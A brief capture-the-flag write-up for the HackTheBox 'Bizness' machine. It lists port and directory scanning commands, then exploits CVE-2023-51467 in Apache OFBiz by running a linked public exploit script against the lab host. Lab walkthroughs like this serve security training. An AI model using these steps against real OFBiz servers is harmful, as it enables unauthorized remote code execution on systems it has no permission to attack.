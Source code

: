 # Bizness machine writeup
## Enum
```
rustscan -a <IP> --ulimit 5000
```

80 & 443 detected, add amchine's IP to /etc/hosts

```
dirsearch -u <url> --exclude-status 400,404,403,500,502
```
In output see /control/login and page powered by Apache OfBiz, we need to exploit it.  
Look for `Apache OFBiz CVE` on Google  
CVE-2023-51467 leads to RCE  
[test for vuln](https://github.com/K3ysTr0K3R/CVE-2023-51467-EXPLOIT)
```
python3 CVE-2023-51467.py --url https://bizness.htb
```
Note that if we will put `/` at the end of URL it won't work  
[exploit](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass)  
